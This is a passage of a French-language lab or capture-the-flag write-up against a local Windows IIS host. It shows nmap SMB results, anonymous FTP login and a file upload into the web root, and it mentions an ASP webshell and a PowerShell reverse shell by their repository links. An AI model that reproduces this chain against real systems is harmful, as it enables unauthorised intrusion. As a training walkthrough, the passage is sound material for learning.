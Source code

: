 ```console
Host script results:
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 625.42 seconds
```

Je ne parviens pas à lister les partages SMB mais je peux me connecter en anonyme sur le FTP :

```console
$ ftp 192.168.56.111
Connected to 192.168.56.111.
220 Microsoft FTP Service
Name (192.168.56.111:devloop): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49158|)
125 Data connection already open; Transfer starting.
10-05-24  12:16PM       <DIR>          aspnet_client
10-05-24  12:27AM                  689 iisstart.htm
10-05-24  12:27AM               184946 welcome.png
226 Transfer complete.
ftp> put test.txt
local: test.txt remote: test.txt
229 Entering Extended Passive Mode (|||49159|)
125 Data connection already open; Transfer starting.
100% |************************************************************************************************************************************************************************************************|   368        8.35 MiB/s    00:00 ETA
226 Transfer complete.
368 bytes sent in 00:00 (252.01 KiB/s)
```

On peut uploader des fichiers et le dossier destination correspond à la racine web qui est sur le port 80.

J'ai trouvé ce webshell mais plus tard j'en ai trouvé un autre (pas noté l'URL par contre) : [webshell/asp/webshell.asp at master · tennc/webshell · GitHub](https://github.com/tennc/webshell/blob/master/asp/webshell.asp)

J'ai alors de l'exécution de commande en tant que `nt authority\network service`.

J'ai ensuite uploadé un script de reverse shell en Powershell, trouvé ici :

[GitHub - martinsohn/PowerShell-reverse-shell: Reverse TCP shell in PowerShell for fun. Made in spring 2020 with inspiration from (and a few fixes to) samratashok/nishang Invoke-PowerShellTcp.ps1 and https://cyberwardog.blogspot.com/2016/08/poweshell-encrypt-tcp-client-server.html](https://github.com/MartinSohn/PowerShell-reverse-shell)
